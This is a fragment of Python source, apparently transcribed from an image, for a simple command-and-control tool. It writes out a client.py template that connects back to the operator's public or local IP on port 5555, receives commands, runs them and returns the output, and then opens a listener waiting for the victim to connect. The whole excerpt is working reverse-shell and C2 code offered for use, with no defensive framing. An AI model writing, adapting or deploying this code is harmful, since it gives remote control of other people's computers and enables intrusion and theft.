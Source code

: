 ```
try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("{server_ip}", 5555))
except socket.error:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("{local_ip}", 5555))


while True:
    command = s.recv(1024).decode('utf-8')
    if not command or command == "exit":
        break


    response = execute_command(command)
    s.sendall(response.encode('utf-8'))


s.close()
'''


        with open('client.py', 'w') as client_file:
            client_file.write(client_template.format(server_ip=public_ip, local_ip=local_ip))


        print("Client file created as 'client.py'")
        print("Run the file on the client machine to connect to the C2 server.")
        start_listening()




def start_listening():
    local_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    local_socket.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    local_socket.bind(('0.0.0.0', 5555))
    local_socket.listen(1)


    print("Server is listening on port 5555...")
    client, addr = local_socket.accept()
    print(f"Connection established with {addr[0]}:{addr[1]}")
    handle_client(client)




if __name__ == '__main__':
    main()
```
